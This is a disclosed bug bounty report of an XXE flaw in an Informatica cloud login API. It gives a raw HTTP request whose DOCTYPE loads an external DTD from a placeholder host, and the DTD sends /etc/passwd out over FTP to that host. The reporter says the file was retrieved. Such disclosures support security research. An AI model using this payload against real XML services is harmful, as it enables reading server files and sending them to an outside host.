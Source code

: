 # [app.informaticaondemand.com] XXE

## Report Details
- **Report ID**: 105753
- **URL**: https://hackerone.com/reports/105753
- **State**: Closed
- **Severity**: high
- **Submitted**: 2015-12-17T10:57:14.283Z
- **Disclosed**: 2017-04-08T10:07:19.915Z

## Reporter
- **Username**: yarbabin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Request:
POST /ma/api/v2/user/login HTTP/1.1
Host: app.informaticaondemand.com
Content-Length: 285
Content-Type: application/xml
Accept: application/xml

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE root [
<!ENTITY % b PUBLIC "lol" "file:///etc/passwd">
<!ENTITY % asd PUBLIC "lol" "http://mysite/xx.html">
%asd;
%rrr;]>
<login><username>demo@informatica.com</username><password>Infa123</password></login>

Where xx.html:
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'ftp://mysite/%b;'>">%c;

Then i got file /etc/passwd (xxe_app.png)


## Attachments
- xxe_app.png
- xxe_app_get.png

